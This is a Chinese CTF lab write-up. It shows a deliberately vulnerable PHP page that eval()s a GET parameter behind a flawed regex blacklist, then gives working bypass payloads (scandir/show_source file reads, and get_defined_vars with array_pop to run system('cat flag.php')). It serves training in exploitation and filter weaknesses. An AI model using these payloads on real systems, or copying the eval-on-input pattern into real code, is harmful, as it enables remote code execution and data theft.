





```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:03:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/


if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}

```

分析源码

过滤了很多符号

数字

~

`

@

#

$

%
^
&
*
(

)

-

+

=

{

}

:

'

"

,

\<

.

\>

/

?


但是这里的过滤的括号是中文括号

且分号和字母没过滤


## 第一种

无参rce

```
?c=var_dump(scandir(getcwd()));
```



读取当前目录内容

读取flag.php

```
?c=show_source(next(array_reverse(scandir(getcwd()))));
```




## 第二种

利用get_defined_vars()

GET提交

```
?c=var_dump(get_defined_vars());
```

POST提交

```
1=phpinfo()
```



取出该数组

GET

```
?c=var_dump(next(get_defined_vars()));
```

POST

```
1=phpinfo()
```




然后利用array_pop进行弹出数组，命令执行

GET

```
?c=eval(array_pop(next(get_defined_vars())));
```

POST

```
1=system("cat flag.php");
```



